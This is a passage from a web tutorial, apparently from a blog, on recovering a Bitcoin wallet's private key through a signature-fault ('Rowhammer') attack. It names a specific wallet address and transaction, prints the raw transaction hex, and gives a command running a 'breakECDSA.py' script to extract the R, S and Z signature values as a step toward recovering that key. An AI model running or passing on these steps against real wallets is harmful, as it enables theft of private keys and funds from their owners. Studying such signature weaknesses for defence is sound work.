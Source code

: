 

<figure class="wp-block-image"><img src="./How to Get a Private Key to a Bitcoin Wallet Using a Signature Fault Rowhammer Attack on Bitcoin CRYPTO DEEP TECH_files/image-102-1024x206.png" alt="How to Get a Private Key to a Bitcoin Wallet Using a Signature Fault (Rowhammer Attack on Bitcoin)" class="wp-image-1142"></figure>



<hr class="wp-block-separator has-alpha-channel-opacity">



<h2>Prepare RawTX for the attack</h2>



<hr class="wp-block-separator has-alpha-channel-opacity">



<blockquote class="wp-block-quote"><p><strong><a href="https://btc1.trezor.io/address/14jUzNgdAboyaUaWNxbDJYYAKwHSwwj6sP" target="_blank" rel="noreferrer noopener">14jUzNgdAboyaUaWNxbDJYYAKwHSwwj6sP</a></strong></p><p><a href="https://btc1.trezor.io/tx/2f7422ffa8bd6311ee25bad9466f0e1d1feef24d32f1d60d7396080a12791f6b" target="_blank" rel="noreferrer noopener">https://btc1.trezor.io/tx/2f7422ffa8bd6311ee25bad9466f0e1d1feef24d32f1d60d7396080a12791f6b</a></p></blockquote>



<figure class="wp-block-image"><img src="./How to Get a Private Key to a Bitcoin Wallet Using a Signature Fault Rowhammer Attack on Bitcoin CRYPTO DEEP TECH_files/image-158-1024x95.png" alt="How to Get a Private Key to a Bitcoin Wallet Using a Signature Fault (Rowhammer Attack on Bitcoin)" class="wp-image-1292"></figure>



<pre class="wp-block-code"><code>RawTX = 010000000188e589b8eed21964cb26cbdf6c396d00eeafa9e3647c9127cbdb23140952aa5b2d0000006b483045022100ddf8c20bb701221daa1a16b69d448bd9582a9051889c0ba71d73930b61876bab02200d66649db3f3a1b7c28984f4d08d41496ffc8488b6e35e4f2b4abdd6bdfc88050121031702d9ec2144df3030e65465bb96d651ea18c56c90215f4835d86e03d797091affffffff01d0020000000000001976a914e94a23147d57674a7b817197be14877853590e6e88ac00000000
</code></pre>



<h2>Now we need to get all R, S, Z values ​​from all vulnerable transactions</h2>



<p>Let’s use the breakECDSA.py script</p>



<pre class="wp-block-code"><code>python2 breakECDSA.py 010000000188e589b8eed21964cb26cbdf6c396d00eeafa9e3647c9127cbdb23140952aa5b2d0000006b483045022100ddf8c20bb701221daa1a16b69d448bd9582a9051889c0ba71d73930b61876bab02200d66649db3f3a1b7c28984f4d08d41496ffc8488b6e35e4f2b4abdd6bdfc88050121031702d9ec2144df3030e65465bb96d651ea18c56c90215f4835d86e03d797091affffffff01d0020000000000001976a914e94a23147d57674a7b817197be14877853590e6e88ac00000000
</code></pre>
